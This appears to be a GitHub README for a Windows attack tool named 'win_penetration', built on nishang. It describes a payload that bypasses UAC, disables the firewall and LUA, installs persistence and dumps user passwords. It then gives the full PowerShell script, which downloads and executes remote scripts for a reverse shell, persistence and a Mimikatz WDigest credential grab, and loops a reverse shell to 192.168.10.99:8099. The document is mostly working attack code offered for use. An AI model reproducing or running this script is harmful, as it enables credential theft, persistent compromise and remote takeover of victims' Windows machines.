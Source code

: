 # win_penetration

powered by [nishang](https://github.com/samratashok/nishang)

### main behaviour
- extract bat file to tmp directory
- bypass UAC and run bat file to:
    - copy self to autorun directory
    - disable LUA
	- close network firewall
	- extract 1.ps1 to powershell root directory
	- run 1.ps1
- Add-Persistence
- lock screen and dump user passwords
- run PowerShellTcp listenning on 192.168.10.99:8099


### 1.ps1
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1')

IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Utility/Add-Persistence.ps1')
Add-Persistence -ScriptPath C:\Windows\System32\WindowsPowerShell\v1.0\1.ps1

$strFileName="c:\windows\zzzjob.log"
If (Test-Path $strFileName){
	# // File exists
	
}Else{
	# // File does not exist
	IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-MimikatzWDigestDowngrade.ps1')
	Invoke-MimikatzWDigestDowngrade
	Get-Job | Receive-Job | Out-File c:\windows\zzzjob.log
}

While(1){
	Try {
		Invoke-PowerShellTcp -Reverse -IPAddress 192.168.10.99 -Port 8099
	}
	Catch {
		Write-Error $Error[0].ToString() + $Error[0].InvocationInfo.PositionMessage
	}
	Start-Sleep -Seconds 3
}
```